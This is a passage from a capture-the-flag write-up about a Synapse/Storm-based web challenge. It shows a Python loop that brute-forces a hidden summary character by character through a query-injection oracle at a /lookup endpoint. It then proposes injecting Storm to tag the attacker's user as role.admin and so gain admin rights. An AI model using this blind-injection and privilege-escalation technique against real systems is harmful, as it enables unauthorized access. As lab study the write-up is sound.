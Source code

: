 ```python
        r = s.post(f'{base_url}/lookup', {
            'query': query
        })
        assert('boi is safe' in r.text or 'sus indicator' in r.text)

        if 'sus indicator' in r.text:
            summary += guess
            print(summary)
            break
```

After a very long time and lots of regex debugging due to the presence of whitespaces and special characters, I finally got the full value of `meta:event:summary` which is a code segment:

```php
for ($type, $valu) in $rows {
    switch ($type) {
        "md5": {[ hash:md5=$valu ]}
        "sha1": {[ hash:sha1=$valu ]}
        "sha256": {[ hash:sha256=$valu ]}
        "sha512": {[ hash:sha512=$valu ]}
        "ip": {[ inet:ipv4=$valu ]}
        "flag": {[ it:dev:str=$valu ]}
    }
}
```

Unfortunately, the summary didn't contain the flag itself. However, we seem to be on the good path, since there's a line hinting that the flag might be stored in a `it:dev:str` node.

```php
"flag": {[ it:dev:str=$valu ]}
```

### The good and intended way

Actually, the `/admin` endpoint displays the summary of the most recent `meta:event` when accessed, which would have saved me the hurdle of bruteforcing it character by character if I had found a way to access it. This completely skipped my mind during the CTF.

```python
ingest_ts, ingest_code = await current_app.cortex.callStorm(r"meta:event#ingest | max .created | return((.created, :summary))", opts={"view": await current_user.view})
```

Of course, you need to be an admin in order to access the endpoint. In the source code, we can find out that an user is defined as an admin if the corresponding `auth:creds` node has a tag (defined by the character `#` in Synapse) with value `role.admin`.

```python
self._is_admin = (await current_app.cortex.count(r"auth:creds=(thunderstruck,$u) +#role.admin", opts={"vars": {"u": self.auth_id}, "view": self._view})) == 1
```

Since we found a way to inject arbitrary Storm in the `/lookup` function, we can simply inject a query that adds the tag `role.admin` to our user node, which will promote us to admin!
